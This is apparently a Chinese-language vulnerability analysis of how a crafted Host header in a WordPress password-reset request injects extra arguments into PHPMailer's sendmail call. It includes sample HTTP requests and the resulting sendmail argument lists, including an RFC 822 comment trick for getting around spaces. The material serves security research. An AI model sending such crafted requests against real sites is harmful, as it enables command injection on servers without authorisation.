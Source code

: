 	/**
	 * Filters the name to associate with the "from" email address.
	 *
	 * @since 2.3.0
	 *
	 * @param string $from_name Name associated with the "from" email address.
	 */
	$from_name = apply_filters( 'wp_mail_from_name', $from_name );
	
	$phpmailer->setFrom( $from_email, $from_name, false );

代码显示sitename是从SERVER变量取出的SERVERNAME，去掉www.头部再和wordpress@进行拼接的。 而SERVERNAME变量在apache是可以由客户端http请求头部的host指定的。

需要注意的是，host改变后不会影响数据的发送，但是如果服务器上存在多个虚拟主机，那么host会用于判断把请求分配给哪个虚拟主机处理，此时的host被修改会导致报错。

通过wordpress的密码找回功能可以出发wp_mail函数，请求如下

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenialINJECT  
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
	Accept-Language: en-US,en;q=0.5  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 56  
	Cookie: wordpress_test_cookie=WP+Cookie+check  
	Connection: close
	
	
	user_login=admin&redirect_to=&wp-submit=Get+New+Password

传递给/usr/sbin/sendmail的参数如下

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenialinject]  

可以看出第三个参数@后面的内容被用户控制了，而且变成了小写。

由于代码根据-来分割参数，那么就可以通过增加-来增加参数，接下来就要想办法增加第五个参数。

但是参数传递过程中还有很多过滤器，接下来作者对绕过的过程进行了详尽的描述，不得不佩服。

### 3.2 &emsp;空格限制 ###

首先是空格的处理，如果host中出现了空格，会导致500报错，导致代码无法触发PHPMailer。

作者之前发现的PHPMailer漏洞中控制的变量username这次又不可控。

对电子邮件标准格式RFC 822进行研究后，作者发现其中提到了注释(comment)的用法，比如john@example.com(comment)。 经过测试，域名的comment中是允许出现空格的，于是有了如下请求头：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 injected tmp2) 

代码处理后变量如下：

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [injected]  
	Arg no. 5 == [tmp2)]  
